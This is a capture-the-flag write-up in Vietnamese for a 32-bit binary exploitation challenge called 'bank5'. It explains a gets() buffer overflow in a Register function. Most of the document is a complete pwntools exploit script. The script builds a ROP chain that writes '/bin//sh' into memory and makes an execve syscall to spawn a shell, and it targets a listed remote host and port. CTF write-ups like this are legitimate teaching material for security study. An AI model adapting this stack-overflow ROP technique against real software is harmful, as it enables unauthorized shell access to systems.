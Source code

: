 # **bank 5**

## Task
nc 61.28.237.24 30206

File: bank5

## Solution

Tương tự các bài `bank4-3` thì bài này cũng phân tích hàm `Register`
```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf((int)"[+] Please enter your name: ");
  gets(name);
  printf((int)"[+] Thanks for the registration, your balance is %d.\n", balance);

```

Tuy nhiên bài này không còn hàm `getFlag` nữa cho nên chúng ta sẽ thực hiện thông qua gọi hàm `execve("/bin/sh", 0, 0)` để gọi bash shell

vì file thực thi là 32bit và staticlly nên mình đã sài ROPgadget tool để build gadget gọi hàm `execve`

### Exploit 
code python
```python

from struct import *
import sys
from pwn import *

binary = context.binary = ELF('./bank5')

#pro = process('./bank5')
pro = remote('61.28.237.24', '30206')

rop = ROP(binary)
f = open('solve.txt','wb')



# Padding goes here
p = b'A'*(0x4c+4)

p += p32(0x0806dfab)  # pop edx ; ret
p += p32(0x080d9060)  # @ .data
p += p32(0x0809d514)  # pop eax ; ret
p += b'/bin'
p += p32(0x08056ca5)  # mov dword ptr [edx], eax ; ret
p += p32(0x0806dfab)  # pop edx ; ret
p += p32(0x080d9064)  # @ .data + 4
p += p32(0x0809d514)  # pop eax ; ret
p += b'//sh'
p += p32(0x08056ca5)  # mov dword ptr [edx], eax ; ret
p += p32(0x0806dfab)  # pop edx ; ret
p += p32(0x080d9068)  # @ .data + 8
p += p32(0x08056260)  # xor eax, eax ; ret
p += p32(0x08056ca5)  # mov dword ptr [edx], eax ; ret
p += p32(0x080481c9)  # pop ebx ; ret
p += p32(0x0806dfd2)  # pop ecx ; pop ebx ; ret
p += p32(0x080d9068)  # @ .data + 8
p += p32(0x080d9060)  # padding without overwrite ebx
p += p32(0x0806dfab)  # pop edx ; ret
p += p32(0x080d9068)  # @ .data + 8
p += p32(0x08056260)  # xor eax, eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08052003)  # inc eax ; ret
p += p32(0x08049553)  # int 0x80

f.write(p)

pro.sendline(p)

pro.interactive()

```

gắn đoạn gadget vào địa chỉ trả về và chạy script

## Run script
vì server đã đóng nên mình thực hiện chạy script khai thác local với file flag.txt HCMUSCTF{bank5}

